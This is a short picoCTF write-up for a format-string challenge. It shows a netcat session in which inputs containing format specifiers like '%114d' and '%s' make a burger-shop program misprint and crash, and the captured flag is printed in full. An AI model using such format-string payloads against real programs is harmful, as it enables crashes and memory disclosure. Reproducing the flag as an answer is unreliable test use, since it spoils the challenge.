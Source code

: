 # 1. Challenge name

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 60954

## Solution:
114d so 114 digit decimal number
%s string
```bash
nc mimas.picoctf.net 60954
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## Concepts learnt:
format string vulneribility is when we send input to something and then that input printed is interpreted wrong and allows the terminal to leak info.


 




